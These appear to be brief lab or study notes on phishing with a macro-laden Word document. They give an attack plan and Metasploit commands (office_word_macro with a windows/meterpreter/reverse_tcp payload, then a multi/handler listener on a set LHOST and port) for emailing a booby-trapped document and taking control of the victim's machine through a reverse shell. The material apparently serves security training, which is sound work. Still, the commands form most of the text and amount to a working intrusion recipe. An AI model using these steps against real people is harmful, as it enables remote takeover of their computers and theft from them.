 #cybersecurity #phishing

Human hacking is usually the easiest to accomplish

### Macros
An automated solution to save time and reduce manual effort.
Set of programmed instructions

### Attack plan

1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker's system
3. Email the document and wait for the target user to open it
4. Target user opens the document and connects the the attacker's system
5. Control the target user's system


### Creating a Malicious Document

- Open terminal and run `msfconsole`
- `set payload windows/meterpreter/reverse_tcp`
- `use exploit/multi/fileformat/office_word_macro`
- `set LHOST 10.10.211.101` listener host
- `set LPORT 8888` listener port
- `show options` check before running
- `exploit` executes 
- `exit` to return terminal

The most important part of the macro is the AutoOpen() method


### Listening for Incoming Connections

- Open `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 10.10.211.101`
- `set LPORT 8888`
- `show options`
- `exploit`